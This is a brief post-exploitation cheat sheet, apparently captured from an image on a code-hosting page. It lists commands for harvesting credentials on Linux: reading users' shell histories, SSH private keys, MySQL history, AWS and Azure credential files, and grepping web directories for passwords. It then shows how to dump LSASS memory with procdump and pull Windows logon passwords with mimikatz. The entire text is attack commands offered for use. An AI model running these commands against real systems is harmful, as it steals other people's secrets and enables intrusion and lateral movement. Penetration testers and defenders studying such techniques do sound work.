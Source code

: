 ## Linux Password harvesting
ps -efw
last -f /var/log/btmp
cat /home/*/.*history
grep -iR password /var/www
cat /home/*/.ssh/id*
cat /home/*/mysql_history
cat /home/*/.aws/credentials
cat /home/*/.azure/accessTokens.json

## Mimikatz
procdump64.exe -accepteula -ma lsass.exe lsass.dmp 
mimikatz
	sekurlsa::minidump lsass.dmp
	sekurlsa::LogonPasswords full